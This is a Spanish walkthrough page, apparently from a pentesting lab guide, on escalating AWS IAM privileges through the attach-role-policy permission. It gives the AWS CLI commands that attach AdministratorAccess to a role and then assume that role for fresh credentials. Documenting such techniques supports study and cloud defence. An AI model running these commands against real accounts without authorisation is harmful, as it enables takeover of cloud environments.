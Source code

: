 Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.

### Explotación

Parecida a la explotación de Attach User Policy, se tiene que saber el nombre del rol al cual se le va añadir una política, esto se hace con el siguiente comando:

{% code overflow="wrap" %}
```
aws iam attach-role-policy --role-name privesc9-AttachRolePolicy-role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc9
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Se recomienda en la fase de enumeración, conocer los roles existentes, los roles asociados al usuario a elevar privilegios, y conocer las políticas que podemos añadir al rol.

Despues a veces se tiene que asumir el rol afectado el cual dará nuevos datos de acceso:

{% code overflow="wrap" %}
```bash
aws sts assume-role --role-arn arn:aws:iam::123123:role/Rolename --role-session-name privesc9 --profile privesc9
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>
